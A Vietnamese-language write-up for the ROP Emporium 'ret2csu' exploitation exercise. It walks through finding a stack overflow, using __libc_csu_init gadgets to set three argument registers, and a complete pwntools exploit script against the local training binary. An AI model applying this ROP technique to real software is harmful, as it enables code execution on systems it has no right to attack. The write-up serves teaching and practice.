




# ROP_Emporium - ret2csu

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
ret2csu: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=f722121b08628ec9fc4a8cf5abd1071766097362, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'
```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit.

Hàm usefulFunction()



Sử dụng gdb để xem mã assembly của hàm pwnme()


# 2. Ý tưởng

Do ở hàm usefulFunction() yêu cầu 3 tham số đầu vào phù hợp để chạy hàm ret2win()


Từ trên suy ra tham số sẽ là: `ret2win(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`

Mà bài này có thể bof ở hàm pwnme()

-> ROP_chain

# 3. Khai thác

Cùng offset tới rip bằng gdb như sau:


Vậy offset là 0x28 bytes.

Như đã đề cập ở trên. Trước khi gọi hàm ret2win(), ta cần setup 3 thanh ghi tham số như sau:

```
RDI = 0xdeadbeefdeadbeef

RSI = 0xcafebabecafebabe

RDX = 0xd00df00dd00df00d
```

Sử dụng `ROPgadget` để kiểm tra các gadget cần thiết:


Ở đây chúng ta không kiếm được gadget để setup thanh ghi RDX.

Nhìn tên đầu bài đó là `ret2csu`

-> Sử dụng kỹ thuật return_to__libc_csu_init

Kiểm tra hàm `__libc_csu_init`



Chúng ta nhìn ra có thể setup thanh ghi RDX bằng chuỗi gadgets:


- Bước 1:

```
pop_rbx_rbp_r12_r13_r14_r15
0                           #rbx
1                           #rbp
addr_contains_init_func     #r12 -> address contain _int()
arg1                        #r13
arg2                        #r14
arg3                        #r15
```

Chúng ta sử dụng đoạn gadget



Để setup 6 thanh ghi rbx, rbp và r12 đến r15.

- Bước 2:

```
mov_rdx_r15_rsi_r14_edi_r13
0
0
0
0
0
0
0
```
Sử dụng đoạn gadget


Để đưa r15 vào rdx và đưa r14 vào rsi

- Chú ý:

`call   QWORD PTR [r12+rbx*8]` dùng call [r12+rbx*8] ở bước 1 ta đã setup r12 là địa chỉ của hàm _init()


Trong trường hợp này hàm _init() không làm tổn hại đến 3 thanh ghi tham số RDI, RSI, RDX cho nên ta sẽ gọi hàm đó.

Tiếp đến chuỗi gadget 

`add    rbx,0x1`
`cmp    rbp,rbx`
`jne    0x400680 <__libc_csu_init+64>`

Để không bị jne thì ta đã setup rbx ở bước 1 nhỏ hơn rbp 1 đơn vị

7 stack 0 tiếp đến để lấp vào các thanh ghi ở các gadget pop tiếp sau nó.

- Bước 3:

```
pop_rdi,
arg1,
win
```
Đây là các thanh ghi trước khi qua bước 3:



Do ở bước 1 câu lệnh `mov_rdx_r15_rsi_r14_edi_r13` sẽ đưa 32bit giá trị của r13 vào edi cho nên rdi chỉ được 8 bytes `0xdeadbeef`

Vì vậy ta cần setup lại rdi bằng lệnh pop_rdi trước khi gọi đến hàm win()

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./ret2csu', checksec=False)

p = process("./ret2csu")

#gdb.attach(p, gdbscript='''
#b*pwnme+152
#c
#''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
pop_rsi_r15 = ROP(elf).find_gadget(["pop rsi", "pop r15", "ret"])[0]
win = elf.sym['ret2win']
vuln = elf.sym['usefulFunction']

str_addr = 0x601040

pop_rbx_rbp_r12_r13_r14_r15 = 0x000000000040069a
mov_rdx_r15_rsi_r14_edi_r13 = 0x0000000000400680

arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d
addr_contains_init_func = 0x600e38
payload = flat(
    cyclic(0x28),
    pop_rbx_rbp_r12_r13_r14_r15,
    0,
    1,
    addr_contains_init_func,
    arg1,
    arg2,
    arg3,
    mov_rdx_r15_rsi_r14_edi_r13,
    0,
    0,
    0,
    0,
    0,
    0,
    0,
    pop_rdi,
    arg1,
    win
    )
p.sendlineafter(b">",payload)
p.interactive()

```
# 4. Lấy flag


